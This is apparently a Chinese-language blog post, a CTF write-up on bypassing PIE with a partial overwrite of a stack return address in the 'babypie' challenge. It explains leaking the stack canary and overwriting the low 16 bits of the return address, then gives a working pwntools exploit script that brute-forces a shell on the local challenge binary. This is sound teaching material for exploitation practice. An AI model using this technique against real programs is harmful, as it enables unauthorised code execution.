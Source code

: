 ```yaml
---
title: 花式栈溢出- 栈上的partial overwrite
date:  2020-07-08 19:41:59
updated: 2020-07-08 19:41:59
tags:
    - 花式栈溢出
    - wiki
    - pwn
categories: 
	- 二进制安全
	- wiki-pwn
use:
  - Valine
text: true
lazyload: true
count: true
---
```

# 1.原理

在程序开启了 PIE 保护时 (PIE enabled) 高位的地址会发生随机化, 但低位的偏移是始终固定的, 也就是说如果我们能更改低位的偏移, 就可以在一定程度上控制程序的执行流, 绕过 PIE 保护。

# 2.查看

安恒杯 2018 年 7 月月赛的 babypie 

![image.png](https://i.loli.net/2020/11/17/NCsfJIxtRbmuSqK.png)

# 3.ida分析

![image.png](https://i.loli.net/2020/11/17/YPAFOBgipRvmh1x.png)

![image.png](https://i.loli.net/2020/11/17/xp9zBZCbjaIP8yF.png)

栈溢出，有后门函数，但保护全开...

首先leak canary

在第一次 read 之后紧接着就有一个输出, 而 read 并不会给输入的末尾加上 \0, 这就给了我们 leak 栈上内容的机会, 为了第二次溢出能控制返回地址, 我们选择 leak canary. 可以计算出第一次 read 需要的长度为 0x30 - 0x8 + 1 (+ 1 是为了覆盖 canary 的最低位为非 0 的值, printf 使用 %s 时, 遇到 \0 结束, 覆盖 canary 低位为非 0 值时, canary 就可以被 printf 打印出来了)

canary 在 rbp - 0x8 的位置上,  这样只要接收 'a' * (0x30 - 0x8 + 1) 后的 7 位, 再加上最低位的 '\0', 我们就恢复出程序的 canary 了

然后覆盖返回地址

没改写的返回地址与 get shell 函数的地址只有低位的 16 bit 不同, 如果覆写低 16 bit 为 0x?A3E, 就有一定的几率 get shell

# 4.编写脚本

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *

while True:
    try:
        p = process("./babypie", timeout = 1)
        p.sendafter(":\n", 'a' * (0x30 - 0x8 + 1))
        p.recvuntil('a' * (0x30 - 0x8 + 1))
        canary = '\0' + p.recvn(7)
        success(canary.encode('hex'))

        
        p.sendafter(":\n", 'a' * (0x30 - 0x8) + canary + 'bbbbbbbb' + '\x3E\x0A')

        p.interactive()
    except Exception as e:
        p.close()
        print e
```